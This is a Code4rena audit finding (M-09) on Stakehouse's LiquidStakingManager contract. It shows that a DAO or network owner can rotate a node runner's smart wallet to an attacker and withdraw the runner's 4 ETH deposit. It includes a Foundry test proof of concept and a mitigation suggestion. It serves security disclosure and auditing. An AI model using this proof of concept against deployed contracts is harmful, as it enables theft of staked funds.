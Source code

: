 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-09

# [DAO or lsdn owner can steal funds from node runner](https://github.com/code-423n4/2022-11-stakehouse-findings/issues/109) 

# Lines of code

https://github.com/code-423n4/2022-11-stakehouse/blob/main/contracts/liquid-staking/LiquidStakingManager.sol#L356-L377


# Vulnerability details

## Impact
DAO or lsd network owner can swap node runner of the smart contract to their own eoa, allowing them to withdrawETH or claim rewards from node runner. 

## Proof of Concept
there are no checks done when swapping the node runner whether there are funds in the smart contract that belongs to the node runner. Therefore, a malicious dao or lsd network owner can simply swap them out just right after the node runner has deposited 4 ether in the smart wallet.

place poc in LiquidStakingManager.sol

```solidity
    function testDaoCanTakeNodeRunner4ETH() public {
        address nodeRunner = accountOne; vm.deal(nodeRunner, 4 ether);
        address feesAndMevUser = accountTwo; vm.deal(feesAndMevUser, 4 ether);
        address savETHUser = accountThree; vm.deal(savETHUser, 24 ether);
        address attacker = accountFour;


        registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFour);

        vm.startPrank(admin);
        manager.rotateNodeRunnerOfSmartWallet(nodeRunner, attacker, true);

        vm.stopPrank();

        vm.startPrank(attacker);
        emit log_uint(attacker.balance);
        manager.withdrawETHForKnot(attacker,blsPubKeyOne);
        emit log_uint(attacker.balance);
        vm.stopPrank();
    }

```

## Tools Used

forge

## Recommended Mitigation Steps
Send back outstanding ETH and rewards that belongs to node runner if swapping is needed. 